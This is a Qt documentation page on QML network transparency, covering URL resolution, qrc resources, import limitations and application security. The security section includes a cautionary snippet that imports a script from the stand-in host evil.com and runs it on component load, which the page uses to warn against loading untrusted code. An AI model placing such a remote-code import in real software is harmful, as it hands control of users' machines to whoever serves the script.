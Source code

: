 ```yaml
---
Title: QtQml.qtqml-documents-networktransparency
---
```


# QtQml.qtqml-documents-networktransparency

<span class="subtitle"></span>
<!-- $$$qtqml-documents-networktransparency.html-description -->
<p>QML supports network transparency by using URLs (rather than file names) for all references from a QML document to other content. This means that anywhere a URL source is expected, QML can handle remote resources as well as local ones, for example in the following image source:</p>
<pre class="qml"><span class="type">Image</span> {
<span class="name">source</span>: <span class="string">&quot;http://www.example.com/images/logo.png&quot;</span>
}</pre>
<p>Since a <i>relative</i> URL is the same as a relative file, development of QML on regular file systems remains simple:</p>
<pre class="qml"><span class="type">Image</span> {
<span class="name">source</span>: <span class="string">&quot;images/logo.png&quot;</span>
}</pre>
<p>Network transparency is supported throughout QML, for example:</p>
<ul>
<li>Fonts - the <code>source</code> property of FontLoader is a URL</li>
<li>WebViews - the <code>url</code> property of WebView (obviously!)</li>
</ul>
<p>Even QML types themselves can be on the network - if the Prototyping with qmlscene is used to load <code>http://example.com/mystuff/Hello.qml</code> and that content refers to a type &quot;World&quot;, the engine will load <code>http://example.com/mystuff/qmldir</code> and resolve the type just as it would for a local file. For example if the qmldir file contains the line &quot;World World.qml&quot;, it will load <code>http://example.com/mystuff/World.qml</code> Any other resources that <code>Hello.qml</code> referred to, usually by a relative URL, would similarly be loaded from the network.</p>
<h2 id="relative-vs-absolute-urls">Relative vs. Absolute URLs</h2>
<p>Whenever an object has a property of type URL (QUrl), assigning a string to that property will actually assign an absolute URL - by resolving the string against the URL of the document where the string is used.</p>
<p>For example, consider this content in <code>http://example.com/mystuff/test.qml</code>:</p>
<pre class="qml"><span class="type">Image</span> {
<span class="name">source</span>: <span class="string">&quot;images/logo.png&quot;</span>
}</pre>
<p>The Image source property will be assigned <code>http://example.com/mystuff/images/logo.png</code>, but while the QML is being developed, in say <code>C:\User\Fred\Documents\MyStuff\test.qml</code>, it will be assigned <code>C:\User\Fred\Documents\MyStuff\images\logo.png</code>.</p>
<p>If the string assigned to a URL is already an absolute URL, then &quot;resolving&quot; does not change it and the URL is assigned directly.</p>
<h2 id="qrc-resources">QRC Resources</h2>
<p>One of the URL schemes built into Qt is the &quot;qrc&quot; scheme. This allows content to be compiled into the executable using The Qt Resource System. Using this, an executable can reference QML content that is compiled into the executable:</p>
<pre class="cpp"><span class="type">QQuickView</span> <span class="operator">*</span>view <span class="operator">=</span> <span class="keyword">new</span> <span class="type">QQuickView</span>;
view<span class="operator">-</span><span class="operator">&gt;</span>setUrl(<span class="type">QUrl</span>(<span class="string">&quot;qrc:/dial.qml&quot;</span>));</pre>
<p>The content itself can then use relative URLs, and so be transparently unaware that the content is compiled into the executable.</p>
<h2 id="limitations">Limitations</h2>
<p>The <code>import</code> statement is only network transparent if it has an &quot;as&quot; clause.</p>
<p>More specifically:</p>
<ul>
<li><code>import &quot;dir&quot;</code> only works on local file systems</li>
<li><code>import libraryUri</code> only works on local file systems</li>
<li><code>import &quot;dir&quot; as D</code> works network transparently</li>
<li><code>import libraryUrl as U</code> works network transparently</li>
</ul>
<h2 id="implications-for-application-security">Implications for Application Security</h2>
<p>The QML security model is that QML content is a chain of trusted content: the user installs QML content that they trust in the same way as they install native Qt applications, or programs written with runtimes such as Python and Perl. That trust is establish by any of a number of mechanisms, including the availability of package signing on some platforms.</p>
<p>In order to preserve the trust of users, QML application developers should not load and execute arbitrary JavaScript or QML resources. For example, consider the QML code below:</p>
<pre class="qml">import QtQuick 2.0
import &quot;http://evil.com/evil.js&quot; as Evil
<span class="type"><a href="QtQml.Component.md">Component</a></span> {
<span class="name">onLoaded</span>: <span class="name">Evil</span>.<span class="name">doEvil</span>()
}</pre>
<p>This is equivalent to downloading and executing &quot;http://evil.com/evil.exe&quot;. <b>The QML engine will not prevent particular resources from being loaded</b>. Unlike JavaScript code that is run within a web browser, a QML application can load remote or local filesystem resources in the same way as any other native applications, so application developers must be careful in loading and executing any content.</p>
<p>As with any application accessing other content beyond its control, a QML application should perform appropriate checks on any untrusted data it loads. <b>Do not, for example, use <code>import</code>, Loader or <a href="QtQml.qtqml-javascript-qmlglobalobject.md#xmlhttprequest">XMLHttpRequest</a> to load any untrusted code or content.</b></p>
<!-- @@@qtqml-documents-networktransparency.html -->
